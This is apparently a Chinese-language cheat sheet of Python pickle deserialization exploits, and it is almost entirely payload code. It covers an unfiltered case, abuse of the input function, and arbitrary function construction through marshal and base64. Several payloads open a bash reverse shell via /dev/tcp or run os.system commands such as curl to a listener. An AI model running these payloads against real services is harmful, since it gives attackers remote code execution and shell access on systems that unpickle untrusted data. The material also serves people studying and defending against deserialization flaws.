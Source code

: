 ```python
platform.popen
```
### ①没有任何过滤

payload生成如下
```python
#!/usr/bin/env python
import pickle
import os

class exp(object):
    def __reduce__(self):
        s = """bash -i >& /dev/tcp/ip/port 0>&1"""
        return (os.system, (s,))

class Exploit(object):
    def __reduce__(self):
 	  return map,(os.system,["ls"])

e = exp()
s = pickle.dumps(e)
```
### ②input 函数利用
```python
c__builtin__
setattr
(c__builtin__
__import__
(S'sys'
tRS'stdin'
cStringIO
StringIO
(S'__import__('os').system(\'curl 127.0.0.1:12345\')'
tRtRc__builtin__
input
(S'input: '
tR.
```

### ③任意函数构造

python2 环境
```Python
import base64
import marshal

def foo():
    import os
    os.system('bash -c "bash -i >& /dev/tcp/127.0.0.1/12345 0<&1 2>&1"')

payload="""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR."""%base64.b64encode(marshal.dumps(foo.func_code))

pickle.loads(payload)
```